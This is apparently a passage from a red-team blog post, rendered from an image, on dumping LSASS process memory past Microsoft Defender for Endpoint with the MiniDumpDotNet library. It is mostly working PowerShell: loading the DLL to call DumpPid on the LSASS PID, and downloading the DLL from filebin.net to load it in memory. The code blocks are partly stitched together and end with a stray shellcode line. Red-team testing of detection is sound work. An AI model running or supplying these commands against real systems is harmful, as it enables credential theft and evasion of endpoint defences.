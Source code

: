 Noting for any alerts, no new alerts are found:

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/refs/heads/master/_posts/redteaming/Exp_MDE_LSASS_Dump/Images/Pasted%20image%2020230823180900.png)

### PowerShell and dll execution against EDR (MDE) - MiniDumpDotNet

As above, compile seperately the project as a Class Library (.dll) and copy the .dll to the target `testmachine` to test execution against MDE.

Spawn a new PowerShell prompt and attempt the load the .dll into the PowerShell namespace and invoke the `DumpPid` sub function from the `MiniDump.MiniDump` entry point with the appropriate LSASS PID and .dmp file name as follows: 

```
[string]$assemblyPath = "C:\Tools\minidumpdotnet.dll"
Add-Type -Path $assemblyPath
[MiniDump.MiniDump]$a = New-Object -TypeName 'MiniDump.MiniDump'
$a.DumpPid(848, "C:\Tools\psh_dump.dmp")
```

```

$data = (New-Object System.Net.WebClient).DownloadData('http://filebin.net/opie5otqxjmpi68z/minidumpdotnet.dll')
$assem = [System.Reflection.Assembly]::Load($data)

Add-Type -TypeDefinition $assem
[MiniDump.MiniDump]$a = New-Object -TypeName 'MiniDump.MiniDump'
$a.DumpPid(836, "C:\users\Administrator\Desktop\psh_dump.dmp")

$class = $assem.GetType("ClassLibrary1.Class1")
$method = $class.GetMethod("AwesomeFunctionName")
$method.Invoke(0, $null)

# Define the URL of the DLL on the web server
$webDllUrl = "https://filebin.net/opie5otqxjmpi68z/minidumpdotnet.dll"

# Download the DLL from the web server and convert it to a byte array
$webResponse = Invoke-WebRequest -Uri $webDllUrl -UseBasicParsing
$assemblyBytes = $webResponse.RawContent

# Load the DLL from memory using Add-Type
Add-Type -TypeDefinition $assemblyBytes

# Use the MiniDump class from the loaded assembly
[MiniDump.MiniDump]$a = New-Object -TypeName 'MiniDump.MiniDump'

# Perform your desired actions
$a.DumpPid(836, "C:\users\Administrator\Desktop\psh_dump.dmp")
```


[+]: Shellcode located at c7160